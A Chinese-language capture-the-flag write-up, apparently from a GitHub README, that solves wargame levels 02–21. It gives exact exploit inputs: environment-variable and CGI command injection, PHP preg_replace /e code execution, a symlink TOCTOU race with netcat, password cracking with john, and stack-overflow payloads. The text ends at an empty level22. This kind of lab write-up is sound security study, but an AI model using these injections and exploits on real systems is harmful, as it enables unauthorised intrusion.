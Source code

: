 ###  level02
attack-env-again

修改USER变量, export USER='`/bin/getflag01`'
![](img/level02.png)

### level03
attack-crontab

在writable.d下创建文件test，内容为`/bin/getflag03>/home/flag03/a.txt`
程序会不定期调用该test文件
在a.txt中查看flag
![](img/level03.png)

### level04
get-token

用ln -s /home/flag04/token /home/level04/test1创建链接
执行flag04 获得密码
登录flag04用户获取flag
![](img/level04.png)

### level05
steal-key

ls -a查看隐藏文件，将文件拷贝到home里，解压缩，ssh登录
![](img/level05.png)

### level06
crack-password

在passwd中找到flag06密码，用john破解，得到密码ftc，远程登录
vi /etc/passwd
john hash001(复制密码到该文件中)
![](img/level06.png)

### level07
cgi-vuln

在/home/flag07下找到index.cgi文件，并根据thpptd得知文件在8888端口
通过浏览器访问8888下的index.cgi文件
查询文件，得知需要Host参数，于是在后面加上?Host=127.0.0.1%26/bin/getflag07(其中%26位&的url加密格式)
![](img/level07.png)

### level08

analyze-packets

在flag08下找到数据包文件，先拷贝到level08下，再远程传送到本地，利用wireshark分析数据包
找到password后面的明文字符为：
backdoor+【del】+【del】+【del】+00R+m8+【del】+ate+【enter】
整合后，密码为`backd00Rmate`
登录后获得flag
![](img/level08.png)


### level09

attack-php

在flag09下查看PHP文件，注意到php正则匹配中有\e模式，preg_replace的第二个参数会被当做代码执行，因此在level09下创建临时文件test，内容为：
`[email ${${system(getflag09)}}]`
成功获得flag
![](img/level09.png)


### level10

race-conf-vuln

TOCTOU（time of check，time of use）问题
程序先根据uid判断是否有读取权限，如果有，才能继续执行，破解方法是先打开一个当前用户有权限的程序，再对打开的内容进行更改；程序输出在18888端口

窗口1：
监听18888端口
`nc -k -l 127.0.0.1 18888`

窗口2：
新建一个窗口，在/tmp目录下创建token文件，作为有权限打开的假token文件；创建一个可执行文件xx，执行循环：
```
while true
do
    ln -sf /tmp/token /tmp/token10
    ln /sf /home/flag10/token /tmp/token10
done
```
执行命令
`chmod +x xx;./xx`

窗口3：
新建一个窗口，在/tmp目录下创建一个可执行文件yy，执行循环：
```
while true
do
    nice -n 19 /home/flag10/flag10 /tmp/token10 127.0.0.1
done
```

在窗口一中获得flag10的token：`b3c5-6d82-7sfc`
登录，获取flag
![](img/level10.png)



### level20

stack-overflow-change-variable

观察程序，gets参数存在漏洞，通过输入覆盖modified值，通过反汇编可知，modified变量值储存在ebp-0xc，即0xbffff62c中，通过输入覆盖至此，即可获得flag
输入：
`./flag20`
`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP1111`

遇到问题:
在gdb调试过程中修改寄存器或标志位后，程序拒绝访问，因此只能通过输入覆盖

![](img/level20.png)



### level21

stack-overflow-change-variable-to-the-right-value

观察程序，关键为比较modified和0x56575859，通过输入命令行参数覆盖modified，modified地址为ebp-0xc，即0xbffff60c，覆盖时每四个字节为小头字节序，因此0x56575859换序为YXWV，
输入（没有换行）：
`./flag21 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPYXWV`

![](img/level21.png)



### level22






